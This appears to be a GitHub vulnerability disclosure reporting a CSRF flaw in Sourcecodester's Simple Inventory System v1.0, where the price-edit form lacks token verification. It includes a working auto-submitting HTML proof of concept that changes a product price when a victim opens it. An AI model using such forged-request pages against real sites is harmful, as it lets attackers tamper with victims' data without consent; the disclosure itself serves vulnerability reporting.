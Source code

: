 ### CSRF vulnerability exists in Sourcecodester Simple Inventory System

official website:https://www.sourcecodester.com/php/4481/simple-inventory-system-using-phpmysql.html

version:v1.0

route：/tableedit.php#page=editprice

injection parameter:$_POST['itemnumber']

#### 1.Vulnerability analysis

As shown in the figure below, in tableedit.php, after the front-end sends the modified price data packet through the form form, there is a lack of token verification mechanism, and the back-end updateproduct.php is directly spliced into the SQL update statement, resulting in a CSRF vulnerability. We can change client user data by constructing malicious request packets.

![image-20240517163532892](https://github.com/rockersiyuan/CVE/blob/main/SourceCodester%20Simple%20Inventory%20System%20CSRF.assets/image-20240517163532892.png)

![image-20240517163554229](https://github.com/rockersiyuan/CVE/blob/main/SourceCodester%20Simple%20Inventory%20System%20CSRF.assets/image-20240517163554229.png)

#### 2.Vulnerability verification and exploit

The construction poc is as follows. Save it as an html file and send it to the victim to click, so that the product price can be modified.

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://10.15.6.184:82/updateprice.php" method="POST">
      <input type="hidden" name="ITEM" value="1" />
      <input type="hidden" name="itemprice" value="888" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

![image-20240517164018816](https://github.com/rockersiyuan/CVE/blob/main/SourceCodester%20Simple%20Inventory%20System%20CSRF.assets/image-20240517164018816.png)

After clicking on the html file, the price is modified to 888.

![image-20240517164148946](https://github.com/rockersiyuan/CVE/blob/main/SourceCodester%20Simple%20Inventory%20System%20CSRF.assets/image-20240517164148946.png)
